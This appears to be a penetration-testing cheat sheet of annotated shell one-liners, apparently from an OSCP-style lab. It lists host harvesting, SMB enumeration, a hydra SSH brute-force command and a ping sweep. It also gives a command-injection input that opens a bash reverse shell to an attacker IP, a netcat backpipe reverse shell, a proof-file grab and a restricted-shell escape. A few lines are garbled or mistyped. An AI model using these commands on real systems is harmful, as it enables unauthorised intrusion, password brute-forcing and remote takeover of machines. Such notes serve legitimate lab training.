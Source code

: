 hash-identifier       				                                                                                         --> to identify hash name

root@kali:~# grep "href=" index.html | cut -d "/" -f 3 | grep "\." | cut -d '"' -f 1               ------>  UNION
cat index.html | grep -o 'http://[^"]*' | cut -d "/" -f 3 | sort -u >list.txt                             --------> URL SAVE IN LIST FILE
for url in $(cat list.txt); do host $url; done | grep "has address" |cut -d " " -f 4 | sort -u     ----->   HOST RESELOV

  cat /etc/issue															-----> operating system  find 

 nbtscan  TARGET IP 													----------> username

  smbclient -L //10.11.1.22												----------> enum

/usr/bin/google-chrome-stable %U --no-sandbox								----------> google chorme start

hydra –L <username_list> -P <password_list> -t 3 192.168.0.5 ssh

-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

for i in `seq 1 255`; do ping -c 1 10.11.1.$i | tr \\n ' ' | awk '/1 received/ {print $2}'; done   ----------------------------->  save .sh and use for iplist genrate


-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
Input: 127.0.0.1; bash -i >& /dev/tcp/Attacker IP/443 0>&1  		------------------------------  reverse connection 

------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
get proof.txt


echo " ";echo "uname -a:";uname -a;echo " ";echo "hostname:";hostname;echo " ";echo "id";id;echo " ";echo "ifconfig:";/sbin/ifconfig -a;echo " ";echo "proof:";cat /root/proof.txt 2>/dev/null; cat /Desktop/proof.txt 2>/dev/null;echo " "


------------------------------------------------------------------------------------------------------------------------------------------------------------------------

/base/bin -c "/bin/sh 0</tmp/backpipe | nc 10.1.1.1 443 1>/tmp/backpipe"

----------------------------------------------------------------------------------------------------------------------------------------------------------------------------

Limited shell  bypass

http://securebean.blogspot.com/2014/05/escaping-restricted-shell_3.html

echo os.system('/bin/bash')
